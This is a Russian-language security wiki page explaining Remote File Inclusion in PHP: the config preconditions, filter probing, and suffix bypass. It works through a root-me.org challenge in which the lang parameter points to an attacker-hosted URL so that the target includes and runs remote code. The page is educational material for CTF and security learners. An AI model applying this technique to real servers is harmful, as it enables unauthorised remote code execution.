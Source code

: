 # Remote File Inclusion
__RFI__ - это выполнение удаленных файлов на серверной стороне. Проще говоря, у нас есть сервер, возвращающий с каким то запросом код программы, который будет открыт и запущен на сервере-жертве.

## Нахождение RFI
Нахождение RFI сводится к тому, что мы вначале находим LFI.

__Поиск LFI__  
Для RFI требуется несколько параметров:
```
1. allow_url_fopen = On
2. allow_url_include = On
3. Строковая переменная в момент инклуда начинается именно с пользовательского ввода.
```
Третий пункт как раз объясняет нам, почему вначале мы ищем именно LFI: LFI не зависит от начала этой строковой переменной (именно из-за Path Traversal - да-да /../ спасет мир)

__Изучение фильтров__  
Если вы уже нашли LFI, то пора бы изучить фильтры.  
Для этого нам нужен минимум символов:
```
:/.
```
Если хотя бы один из символов не проходит, то RFI отсутствует (если нет преобразования hex,base64 и тд).

__Конкатенация к строке инклуда (отличие от LFI реализации)__  
Обычно приписывание другой строки к запросу обходится так же, как и в LFI (и вы это могли найти на части поиска LFI уязвимости).  
Но тут есть некоторые "фичи".

*__Если не получится откинуть приписанную строку__*  
Рассмотрим пример, где приписывается \_lg.php (http://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion). LFI у нас нет тк никакие способы не прошли.

Наш запрос:
```
    http://challenge01.root-me.org/web-serveur/ch13/?lang=en
```
Преобразовывает инклуд в:
```
    include("en_lang.php")
```
В этом случае нам требовалось отослать подобную строку:
```
    http://challenge01.root-me.org/web-serveur/ch13/?lang=http://uri/folder/en
```
Объясняю, что происходит:
```
1.Мы создали у нас на сайте файл http://uri/folder/en_lang.php
2.Строка http://uri/folder/en преобразовалась в -> http://uri/folder/en_lang.php
3.Инклудится наш файл: include("http://uri/folder/en_lang.php")
4.Profit!
```
Если говорить проще, то нам нужно создать такой файл, что при переходе к нему, его url оканчивался на нужную последовательность символов (как в примере \_lang.php).

*__Но! Это не пройдет, если у вас будет приписываться окончание незапускаемого типа файлов (как gif или css).__*

__Фильтруется протокол передачи__  
RFI не пройдет так же, если будут фильтроваться все три протокола:
```
http,ftp,https
```
Если же какой то из них не фильтруется, то эта часть, считайте, успешно пройдена.

## Эксплуатация RFI
Большинство информации было написано в предыдущих пунктах,поэтому вкратце.  
Для эксплуатации нам всего лишь требуется cвой сайт или ftp сервер выходящий в глобальную сеть.
```
1. Создаем запускаемый файл на нашем сервере, высвечивающий исходник по curl(ftp) запросу.
2. Преобразовываем его положение на сервере, чтобы он смог пройти фильтрацию.
3. Отсылаем преобразованную строку, учитывая фильтры и конкатенацию
4. Profit!
```

## Статьи и полезные ссылки
> * https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion
> * http://securityxploded.com/remote-file-inclusion.php
> * https://xakep.ru/2009/09/17/49508/


----
взято с сайта http://itsecwiki.org/
